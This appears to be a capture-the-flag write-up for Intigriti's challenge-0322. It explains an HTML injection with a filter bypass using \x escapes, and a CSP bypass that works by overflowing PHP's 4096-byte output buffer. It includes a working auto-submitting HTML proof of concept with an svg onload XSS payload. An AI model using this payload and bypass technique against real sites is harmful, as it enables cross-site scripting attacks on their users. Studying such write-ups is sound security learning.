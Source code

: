 ## Summary

![image](https://user-images.githubusercontent.com/49112423/160453210-0289c053-378d-440f-9d6e-88e39b9f5e88.png)

In the challenge-0322 problem, FirstText and Hashing parameter values are passed to the server. We can inject HTML because the value of FirstText is inserted directly inside the document. However, some filtering exists, but this can be bypassed via the \x* characters. Now we can bypass the filtering and insert a full XSS PoC. But as a second problem, CSP existed. However, this can be circumvented with one trick. The default buffer size in php is 4096 bytes. If we pass a value larger than 4096 bytes as a parameter value, CSP is not set because the response comes before the header() function that sets CSP is called.

Now, to make this self-xss into reflected xss, we need to create a PoC. I created a PoC as below and uploaded it to my private server. One thing to be aware of when creating PoC is to use the GET method in the current browser to make a request to the problem before making a POST request from the problem. Otherwise, The token is not set, send at least one request from the gui error occurs. So, I opened it using the window.open() function before the POST request. yes it works fine.

[+] It's a pity I didn't receive 300 Euros 😀 

---
## Proof of Concept

```html
<!doctype html>
<html>
  <head>
    <title>challenge-0322 poc</title>
  </head>
  <body>
      <h1>challenge-0322 poc</h1>
      <form id="poc" action="https://challenge-0322.intigriti.io/challenge/LoveReceiver.php" method="POST">
          <input type="hidden" name="token" value="c340547ec61d280c42f22b733d46685a5d39abd32d317da9c4c1505b132f14a8">
          <input type="hidden" name="FirstText" value="asdf">
          <input type="hidden" name="Hashing" value="asdf">
      </form>
      <script>
            document.getElementsByTagName('input')[1].value =  `${'a'.repeat(5000)}<svg onload='location.href = "javascript:alert\\x28document.domain\\x29"'>`;
            document.getElementsByTagName('input')[2].value =  `${'a'.repeat(5000)}<svg onload='location.href = "javascript:alert\\x28document.domain\\x29"'>`;

            window.open('https://challenge-0322.intigriti.io/challenge/LoveSender.php');
            setTimeout(() => poc.submit(), 1500);
      </script>
  </body>
</html>
```
